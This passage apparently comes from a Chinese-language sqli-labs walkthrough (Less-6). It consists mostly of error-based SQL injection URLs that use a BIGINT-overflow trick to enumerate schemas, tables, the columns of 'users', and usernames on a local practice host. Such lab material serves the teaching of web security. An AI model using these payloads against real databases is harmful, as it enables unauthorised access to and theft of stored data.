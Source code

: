 ```bash
URL:
http://sqli-labs.me:8888/Less-6/?id=1" union select (!(select * from (select schema_name from
information_schema.schemata limit 6,1)x) - ~0),2,3--+
```

### 2.3.2.爆表

```bash
URL:
http://sqli-labs.me:8888/Less-6/?id=1" union select (!(select * from (select table_name from information_schema.tables
where table_schema='security' limit 0,1)x) - ~0),2,3--+
```

![bool30](/images/sqlall/bool30.jpg)

```bash
URL:
http://sqli-labs.me:8888/Less-6/?id=1" union select (!(select * from (select table_name from information_schema.tables
where table_schema='security' limit 1,1)x) - ~0),2,3--+
```

### 2.3.3.爆字段

````bash
URL:
http://sqli-labs.me:8888/Less-6/?id=1" union select (!(select * from (select column_name from information_schema.columns
where table_name='users' limit 0,1)x) - ~0),2,3--+
````

![bool31](/images/sqlall/bool31.jpg)

```bash
URL:
http://sqli-labs.me:8888/Less-6/?id=1" union select (!(select * from (select column_name from information_schema.columns
where table_name='users' limit 1,1)x) - ~0),2,3--+
```

### 2.3.4.爆数据

```bash
URL:
http://sqli-labs.me:8888/Less-6/?id=1" union select (!(select * from (select username from security.users limit 0,1)x) -
~0),2,3--+
```

![bool32](/images/sqlall/bool32.jpg)

```bash
URL:
http://sqli-labs.me:8888/Less-6/?id=1" union select (!(select * from (select username from security.users limit 1,1)x) -
~0),2,3--+
```
